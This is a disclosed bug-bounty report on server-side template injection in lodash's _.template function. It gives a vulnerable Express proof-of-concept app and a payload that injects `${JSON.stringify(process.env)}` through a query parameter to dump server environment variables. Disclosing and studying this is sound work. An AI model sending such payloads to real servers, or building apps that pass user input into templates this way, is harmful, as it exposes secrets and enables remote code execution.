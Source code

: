 # Server-side Template Injection in lodash.js 

## Report Details
- **Report ID**: 904672
- **URL**: https://hackerone.com/reports/904672
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-06-22T06:16:28.733Z
- **Disclosed**: 2021-06-28T08:43:38.785Z

## Reporter
- **Username**: zerohex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Server-side Template Injection in lodash.js  (_.template function)
It allows the execution of code on the server

# Module

**module name:** lodash
**version:** 4.17.15
**npm page:** `https://www.npmjs.com/package/lodash`

## Module Description

The Lodash library exported as Node.js modules.

## Module Stats

26,664,631 weekly downloads

# Vulnerability

## Vulnerability Description

The _.template function of the lodash package does not properly validate user-supplied input. 



An application making use of the lodash package may be exploited by an attacker that controls the value of a parameter processed by the _.template function. An attacker can inject code such as Javascript within parenthesis for example `parameter=${JSON.stringify(process.env)}` which will be executed by the server.

## Steps To Reproduce:

**Step 1:** Create a test application that requires the lodash.js library. The application below accepts user-supplied input in the  'name' parameter that is handled by lodash `_.template` function

```
const express = require('express');
const _ = require('lodash');
const escapeHTML = require('escape-html');
const app = express();
app.get('/', (req, res) => {
  res.set('Content-Type', 'text/html');
  const name = req.query.name
  // Create a template from user input
  const compiled = _.template("Hello " + escapeHTML(name) + ".");
  res.status(200).send(compiled());
});

app.listen(8000, () => {
  console.log('POC app listening on port 8000!')
});
```

**Step 2:** Visit the vulnerable application at http://127.0.0.1:8000/?name=Test

**Step 3:** Visit the vulnerable application and enter a payload such as `${JSON.stringify(process.env)}` into the `name` parameter e.g.  http://127.0.0.1:8000/?name=Test${JSON.stringify(process.env)}

## Supporting Material/References:

- OSX 10.15.5
- NODEJS v10.16.0
- NPM v 6.9.0

# Wrap up

- I contacted the maintainer to let them know: [Y/N] N
- I opened an issue in the related repository: [Y/N] N

> Hunter's comments and funny memes goes here

Apologies if I haven't used the ideal terminology or if this is a duplicate.

## Impact

Remote code execution

## Attachments
No attachments
